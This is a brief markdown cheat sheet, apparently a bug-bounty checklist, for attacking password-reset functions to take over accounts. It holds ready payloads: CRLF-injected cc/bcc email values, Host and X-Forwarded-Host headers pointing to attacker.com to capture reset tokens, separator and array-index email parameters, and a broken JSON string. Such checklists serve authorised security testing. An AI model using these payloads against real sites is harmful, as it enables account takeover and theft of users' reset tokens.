 # Password Reset Functionality

## Tips And Trick
   - Analyze the Token and the pattern if its possible to achive ATO
   - Check for token leak in header especially in referrer header
   - Use Forwarded Host header if it works use ngrok to capture the request to achive 1 click ATO
   - Use HTTP Parameter Pollution
   - Intercept Response To valid one
     1. notice that the response manipulation must same with valid response Dont just change the verb and status code
   - Use Carbon Copy attack
     1. victim@xyz.tld >> victim@xyz.tld%0a%0dcc:hacker@xyz.tld or victim@xyz.tld&cc:hacker@xyz.tld or victim@xyz.tld%0a%0dbcc:hacker@xyz.tld or       victim@xyz.tld&bcc:hacker@xyz.tld
   - Host headerInjection
   
    ```
    Host: target.com
    Host: attacker.com
    or
    Host: target.com
    X-Forwarded-Host: attacker.com
    Or
    Host: attacker.com
    ```
   - Use separator , %20 | %00 :
     1. victim@xyz.tld,hacker@xyz.tld / victim@xyz.tld|hacker@xyz.tld / victim@xyz.tld:hacker@xyz.tld / victim@xyz.tld%00hacker@xyz.tld / victim@xyz.tld%20hacker@xyz.tld
     2. email="victim@mail.tld",email="attacker@mail.tld" 
   - Use Null or nil value
   - Use long string to trigger error
   - Broken JSON payload : -*-*-*--""---*-*;*;*-*--*-*;*;*-*-*+;**;;*+*+*!*!*+*++*;*;*+*+*+*++*;
   - Check for IDOR
   - Use Array index 
     1. email[0]=victim@email.com&email[1]=attacker@email.com
     2. FOr JSON : {email:[victim,attacker]}
   - Check for no rate limit
   - Check for session expiration
   - Check for token expiration
